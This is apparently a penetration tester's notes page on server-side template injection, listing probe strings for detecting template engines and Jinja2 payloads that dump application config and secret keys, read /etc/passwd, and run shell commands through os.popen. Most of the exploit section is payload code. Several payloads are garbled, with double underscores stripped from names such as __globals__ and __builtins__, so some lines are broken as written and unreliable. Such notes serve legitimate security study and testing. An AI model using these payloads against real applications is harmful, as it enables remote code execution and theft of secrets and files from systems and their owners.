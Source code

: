 # SSTI

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

Step 1: Find an injection point, attempt basic payloads and see if app is vulnerable to SSTI.

Can be via input box, or in the URL

Basic Identification:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Exploit

### Jinja2

* Dump all the config variables, will show the secret key, if the variable is set

```
{{ config }} 
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Jinja Injection without \<class 'object'>&#x20;

* From the there is another way to get to RCE without using that class.&#x20;
* \*\*\*\*If you manage to get to any function from those globals objects, you will be able to access **globals**.**builtins** and from there the RCE is very simple.&#x20;
* You can find functions from the objects request, config and any other interesting global object you have access to with:&#x20;

```
{{ request.__class__.__dict__ }}
application
_load_form_data
on_json_loading_failed ​ {{ config.class.dict }}
init
from_envvar
from_pyfile
from_object
from_file
from_json
from_mapping
get_namespace
repr ​
# You can iterate through children objects to find more
```

* Once you have found some functions you can recover the builtins with:

```
# Read File
{{ request.class._load_form_data.globals.builtins.open("/etc/passwd").read() }} ​
# RCE
{{ config.class.from_envvar.globals.builtins.import("os").popen("ls").read() }} {{ config.class.from_envvar["globals"]["builtins"]"import".popen("ls").read() }} {{ (config|attr("class")).from_envvar["globals"]["builtins"]"import".popen("ls").read() }} ​
{{ a }}​ ## Extra ## The global from config have a access to a function called import_string ## with this function you don't need to access the builtins {{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }} ​ 
# All the bypasses seen in the previous sections are also valid
```

If it is, the next step is determining the engine that is running the application&#x20;

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
